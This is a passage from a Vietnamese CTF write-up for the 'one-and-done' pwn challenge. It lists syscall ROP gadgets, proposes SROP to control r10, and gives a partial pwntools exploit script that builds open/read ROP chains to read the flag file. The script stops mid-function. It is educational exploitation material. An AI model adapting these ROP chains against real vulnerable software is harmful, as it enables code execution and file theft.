 ```cs
0x000000000040226f: sub byte ptr [r10 + rcx + 0x31], r14b; sal byte ptr [rcx], cl; test byte ptr [rax - 0x77], -0x11; call qword ptr [rbp + 0x48];
0x0000000000401576: xor edx, edx; mov rsi, rsp; movsxd rdi, r12d; mov r10d, 8; mov eax, 0xd; syscall;
0x0000000000401a44: xor r10d, r10d; mov rax, r9; mov rsi, rbx; syscall;
0x0000000000401e38: xor r10d, r10d; mov rax, rbx; mov rsi, rbp; syscall;
0x0000000000401e49: xor r10d, r10d; xor esi, esi; mov rax, rbx; syscall;
0x0000000000401e45: clc; fidiv dword ptr [rbp - 0x3c]; xor r10d, r10d; xor esi, esi; mov rax, rbx; syscall;
0x000000000040157d: cld; mov r10d, 8; mov eax, 0xd; syscall;
0x0000000000401d8e: cli; mov r10d, 8; lea rsi, [rip + 0x129c]; xor edi, edi; mov eax, 0xe; syscall;
0x0000000000401d74: cli; mov r10d, 8; lea rsi, [rip + 0x12be]; xor edi, edi; mov eax, 0xe; syscall;
```

- vì vậy ta sẽ dùng ```SROP``` để có thể control được ```r10``` : 

script : 

```cs
#!/usr/bin/python3

from pwn import *

context.binary = exe = ELF('./one-and-done',checksec=False)

p = process()

offset = 0x120
pop_rdi = 0x0000000000401793
pop_rsi = 0x0000000000401713
pop_rdx = 0x0000000000401f31
syscall_ret = 0x0000000000401ab2
pop_rax = 0x000000000040100b
bss = 0x405ea0
gets_addr = 0x0000000000401230


#       unsigned int fd, char *buf, size_t count
def read(writable,fd =3 ,count = 0x100):
    pl = p64(pop_rax) + p64(0)
    pl += p64(pop_rdi) + p64(fd)
    pl += p64(pop_rsi) + p64(writable)
    pl += p64(pop_rdx) + p64(count)
    pl += p64(syscall_ret) + p64(exe.sym.main)
    return pl

def read_flag(writable,fd =3 ,count = 0x100):
    pl = p64(pop_rax) + p64(0)
    pl += p64(pop_rdi) + p64(fd)
    pl += p64(pop_rsi) + p64(writable)
    pl += p64(pop_rdx) + p64(count)
    pl += p64(syscall_ret)
    return pl

#       const char *filename, int flags, umode_t mode
def open(filename,flags=0,mode=0):
    pl = p64(pop_rax) + p64(2)
    pl += p64(pop_rdi) + p64(filename)
    pl += p64(pop_rsi) + p64(flags)
    pl += p64(pop_rdx) + p64(mode)
    pl += p64(syscall_ret)
    return pl
# unsigned int fd, const char *buf, size_t count
def write(writable,fd=1,count=0x100):
```